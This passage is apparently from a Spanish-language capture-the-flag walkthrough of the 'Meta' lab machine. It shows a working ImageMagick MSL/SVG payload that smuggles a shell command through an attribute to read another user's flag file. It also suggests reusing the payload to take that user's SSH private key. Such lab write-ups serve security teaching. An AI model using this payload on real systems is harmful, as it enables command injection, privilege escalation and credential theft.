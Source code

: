 Creamos un nuevo directorio dentro de **`/tmp`** y dentro de él, creamos un archivo llamado **`poc.svg`**

```console
www-data@meta:/var/www$ mkdir /tmp/any0ne; cd /tmp/any0ne && nano poc.svg
```

El contenido de este archivo será el siguiente:

```xml
<image authenticate='ff" `echo $(cat /home/thomas/user.txt)> /dev/shm/userflag`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Aquí debo explicar un detalle, no podemos guardar el output en este directorio ya que al parecer existe una tarea cron que borra el contenido,
es por eso que en nuestro **`poc.svg`** hacemos que la ruta apunte al directorio **`/dev/shm`**, donde tenemos permisos de escritura.
Si queremos ver en qué otros directorios tenemos permiso de escritura, podemos ejecutar el siguiente comando:

```console
www-data@meta:/tmp/any0ne$ find / -perm -2 -type d 2>/dev/null
/var/tmp
/var/lib/php/sessions
/dev/mqueue
/dev/shm
/run/lock
/tmp
```

Lo guardamos y lo copiamos dentro del directorio **`/var/www/dev01.artcorp.htb/convert_images/`** y esperamos a que sea procesado.
Una vez que se procese, deberíamos ver nuestro archivo creado, que contendrá la flag del usuario.

```console
www-data@meta:/tmp/any0ne$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/poc.svg
www-data@meta:/tmp/any0ne$ ls -l /var/www/dev01.artcorp.htb/convert_images/
total 4
-rw-r--r-- 1 www-data www-data 432 Jan 25 20:13 poc.svg
www-data@meta:/tmp/any0ne$ cd /dev/shm && ls -la
total 3
-rw-r--r-- 1 thomas   thomas    33 Jan 25 20:14 userflag
www-data@meta:/dev/shm$ cat userflag
e511271f887e1a7a3443c8811e764d14
```

Podemos leer el archivo **`id_rsa`** dentro del directorio **`.ssh`** para así conectarnos por SSH cuando queramos.
Hay que modificar nuestro **`poc.svg`** y repetir el proceso anterior.
